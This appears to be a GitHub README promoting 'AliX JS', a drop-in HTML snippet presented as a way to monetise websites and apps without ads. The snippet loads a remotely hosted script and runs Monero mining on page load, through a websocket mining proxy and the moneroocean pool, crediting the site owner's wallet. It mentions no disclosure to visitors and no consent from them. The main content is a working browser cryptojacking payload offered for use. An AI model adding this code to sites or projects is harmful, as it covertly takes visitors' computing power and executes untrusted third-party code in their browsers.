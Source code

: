 ##### AliX JS Is A PowerFull JS Used To Monitize Websites And Apps  
#### Use This Code To Basically Monitize Your Apps Without Ads For Free  
### See This Video For More Info : https://www.youtube.com/watch?v=AZU6TeEjHVQ
## `HTML SCRIPT`
```
<script src="https://alixjs.vercel.app/index.js"></script>
<script>
    server = "wss://f.xmrminingproxy.com:8181";
    var pool = "moneroocean.stream";
    var walletAddress = "YOUR-MONERO-ADRESS";
    var workerId = "YOUR-WORKER-ID";
    var threads = 1;
    var password = "x";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 30;
</script>
```
### Almost All Languages Supports Html Code Includelation .. Use This Code As Your Pride .. 
  
# How It Works ?
- It Is Created By `https://github.com/notgiven688/webminerpool` Repo Basicaly
- I Tooked `SDK/miner_compressed/webmr.js` Script And Used It As Index JS
- I Searched The Whole Internet And Atlest I Found A Free Hosted Server By `monerominer.rocks` And Then Picked It To Use It As `wss://f.xmrminingproxy.com:8181`
- It Currently Only Support One Pool That Is `moneroocean.steam` That Is Very Good Pool
# Bye Bye , Thanks
